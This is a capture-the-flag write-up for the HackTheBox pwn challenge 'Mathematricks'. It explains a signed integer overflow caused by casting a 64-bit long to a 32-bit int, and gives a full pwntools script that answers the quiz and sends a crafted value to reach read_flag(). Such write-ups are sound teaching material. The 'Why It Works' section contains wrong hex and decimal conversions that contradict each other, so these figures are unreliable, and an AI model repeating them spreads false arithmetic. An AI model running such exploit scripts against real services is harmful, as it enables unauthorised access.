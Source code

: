 ```yaml
---
title: "Mathematricks 🧠 - Signed Integer Overflow Exploit Writeup"
tags: [HTB, binary exploitation, signed overflow, pwn]
---
```


![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![Challenge](https://img.shields.io/badge/Challenge-red)

# Mathematricks 🧠

How about a magic trick? Or a math trick? Beat me and I will give you an amazing reward!

## 📚 Table of Contents
- [Binary Protections Analysis 🛡️](#binary-protections-analysis-️)
- [Program Behavior 📟](#program-behavior-)
- [Reverse Engineering 🔍](#reverse-engineering-)
- [Exploitation Strategy 💣](#exploitation-strategy-)
- [Full Exploit Script 🧨](#full-exploit-script-)
- [Exploitation Result ✅](#exploitation-result-)
- [Conclusion 🧾](#conclusion-)

## Binary Protections Analysis 🛡️

We begin by running `checksec` on the binary:

![Checksec Output](https://github.com/user-attachments/assets/6418a92b-ca8b-4297-822e-3513f35c5e8c)

Findings:
- ✅ Full RELRO  
- ✅ Stack Canary found  
- ✅ NX enabled  
- ✅ PIE enabled  
- ❌ No FORTIFY

## Program Behavior 📟

Upon launching the binary, we are presented with two options:

![Program Menu](https://github.com/user-attachments/assets/736c8f34-35de-4583-aaa1-388f0d9e6c02)

Choosing the **"Rules"** option displays the following message:

> Solve the math questions to get the flag, some of them are tricky!

## Reverse Engineering 🔍

In Ghidra, we decompiled the `game()` function:

![Ghidra Decompiled Game Function](https://github.com/user-attachments/assets/7bf67697-dc68-4e61-ae4c-207f080802b9)

We notice a simple chain of mathematical questions. Most of them are straightforward:

```c
if ((0 < lVar1) && (0 < lVar2)) {
    if ((int)lVar1 + (int)lVar2 < 0) {
        read_flag();
    }
}
```

The catch lies in the **last condition**, which leads to `read_flag()`.

## Exploitation Strategy 💣

The trick comes from how `long` values (64-bit) are cast into `int` (32-bit signed) values.

### 🔢 Limits:
- **Signed long (64-bit)**: -9,223,372,036,854,775,808 → 9,223,372,036,854,775,807  
- **Signed int (32-bit)**: -2,147,483,648 → 2,147,483,647

Even if we input a positive long, when casted to an `int`, we can **cause a signed overflow** by truncating the upper bits.  

This happens here:

```
if ((int)lVar1 + (int)lVar2 < 0)
```

By providing:
- `n1 = 1`
- `n2 = 1337133713371337`

→ The `int` cast of `n2` overflows to a **negative number**, satisfying the condition.

### 🧠 Why It Works

Let’s analyze the difference between two values:

#### ➤ Value 1: `133713371337`  
- In hex (64-bit): `0x0000001F24E6D099`
- Truncated 32 LSB (int): `0x24E6D099`
- Binary conversion: 00100100111001101101000010011001 (first bit = 0, positive number)  
- Interpreted as **signed int**: **+619825177** ✅ still positive

#### ➤ Value 2: `1337133713371337`  
- In hex (64-bit): `0x04CFF4073DD9`
- Truncated 32 LSB (int): `0x073DD9` → in full: `0xF4073DD9`
- Binary conversion: 11110100000001110011110111011001 (first bit = 1, negative number)
- Interpreted as **signed int**: **-199303543** ❌ negative!

The high bit (MSB) is `1` in the casted 32-bit value, marking it as **negative** when interpreted as a `signed int`.

Thus:
```
(int)1 + (int)-199303543 = -199303542 < 0 → condition met ✅
```

(With n2 = 2147483647 it works too, because the first bit of the truncated 32 LSB of n1 + n2 (2147483648) is equal to 1, even if 2147483647 is lower than 133713371337.)

## Full Exploit Script 🧨

```python
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description="Exploit mathematricks (local or remote)")
    parser.add_argument("-r", "--remote", help="Remote mode with IP and port", nargs=2, metavar=("IP", "PORT"))
    parser.add_argument("-l", "--local", help="Local mode with a binary", metavar="BINARY")
    args = parser.parse_args()

    if args.remote:
        ip, port = args.remote
        p = remote(ip, int(port))
    elif args.local:
        p = process(args.local)
    else:
        print("Please specify an execution mode: -r IP PORT or -l BINARY")
        return

    emoji_prompt = b'\xf0\x9f\xa5\xb8 '  # 🥸 prompt in UTF-8

    p.sendlineafter(emoji_prompt, b'1')             # Q1: 1 + 1 = ?
    p.sendlineafter(b'> ', b'2')                    # Q2: 2 - 1 = ?
    p.sendlineafter(b'> ', b'1')                    # Q3: 1337 - 1337 = ?
    p.sendlineafter(b'> ', b'0')                    # Q4 dummy input
    p.sendlineafter(b'n1: ', b'1')                  # n1
    p.sendlineafter(b'n2: ', b'1337133713371337')   # crafted value for overflow

    print(p.recvall().decode(errors="ignore"))

if __name__ == "__main__":
    main()
```

## Exploitation Result ✅

And here's the final output with the flag:

![Exploit Result](https://github.com/user-attachments/assets/26504540-8213-48d7-937e-3e8dba22e77c)

```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

## Conclusion 🧾

This challenge was a great example of a **signed integer overflow** logic bug.

- We leveraged the fact that a `long` is downcast to a `signed int`, possibly resulting in negative values.
- By choosing the right large 64-bit number, we forced an overflow and passed the logic check.

A perfect mix of math and low-level understanding 🔐🧠

🔙 [Back to Challenge Writeups](../../)
